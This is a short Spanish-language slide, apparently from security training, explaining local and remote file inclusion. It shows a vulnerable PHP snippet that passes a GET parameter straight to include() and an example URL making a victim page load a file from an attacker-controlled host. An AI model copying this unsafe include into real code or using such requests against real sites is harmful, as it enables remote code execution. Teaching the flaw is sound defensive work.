

# Local and Remote File Inclusion (LFI & RFI)
La vulnerabilidad es producida por código semejante a este

En páginas de este tipo se puede incluir ficheros que estén en nuestro servidor

$page = $_GET['page'];
include($page);
http://victima.com/pagvuln.php?page=http://[misitio]/miFichero